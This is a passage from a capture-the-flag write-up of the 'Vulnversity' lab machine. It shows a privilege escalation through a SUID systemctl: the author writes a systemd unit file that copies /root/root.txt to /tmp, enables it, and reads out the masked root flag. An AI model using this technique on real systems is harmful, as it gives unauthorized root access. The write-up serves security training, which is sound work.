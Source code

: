 ```
www-data@vulnuniversity:/home/bill$ vuln=$(mktemp).service
```

<br />

Then populating it with the contents of the exploit, changing the shell command piece to display the contents of the flag file:

```
www-data@vulnuniversity:/home/bill$ echo '[Service]
> ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
> [Install]
> WantedBy=multi-user.target' > $vuln
```

<br />

We have now created a `unit file` that will read the contents of `/root/root.txt` and export them to the `/tmp/output` file. The remaining steps according to the exploit is to link the `unit file` with `systemctl` and start it.

```
www-data@vulnuniversity:/home/bill$ systemctl link $vuln
Created symlink from /etc/systemd/system/tmp.74hJvCHt6u.service to /tmp/tmp.74hJvCHt6u.service.
www-data@vulnuniversity:/home/bill$ systemctl enable --now $vuln
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.74hJvCHt6u.service to /tmp/tmp.74hJvCHt6u.service.
```

<br />

Looks like the exploit worked and the `/tmp/output` file has indeed been created:

```
www-data@vulnuniversity:/home/bill$ ls -la /tmp
total 40
drwxrwxrwt  8 root     root     4096 Jun 13 06:12 .
drwxr-xr-x 23 root     root     4096 Jul 31  2019 ..
drwxrwxrwt  2 root     root     4096 Jun 13 03:35 .ICE-unix
drwxrwxrwt  2 root     root     4096 Jun 13 03:35 .Test-unix
drwxrwxrwt  2 root     root     4096 Jun 13 03:35 .X11-unix
drwxrwxrwt  2 root     root     4096 Jun 13 03:35 .XIM-unix
drwxrwxrwt  2 root     root     4096 Jun 13 03:35 .font-unix
-rw-r--r--  1 root     root       33 Jun 13 06:12 output
drwx------  3 root     root     4096 Jun 13 03:35 systemd-private-9d4c6fdc98ad4682889d40fb7a837b37-systemd-timesyncd.service-SGEtU4
-rw-------  1 www-data www-data    0 Jun 13 06:08 tmp.74hJvCHt6u
-rw-rw-rw-  1 www-data www-data  103 Jun 13 06:09 tmp.74hJvCHt6u.service
```

<br />

The contents of which print the `/root/root.txt` flag for us:

```
www-data@vulnuniversity:/home/bill$ cat /tmp/output 
a58ff**********************c7fd5
```

<br />

Congrats, you just pwned Vulnversity!

<br />
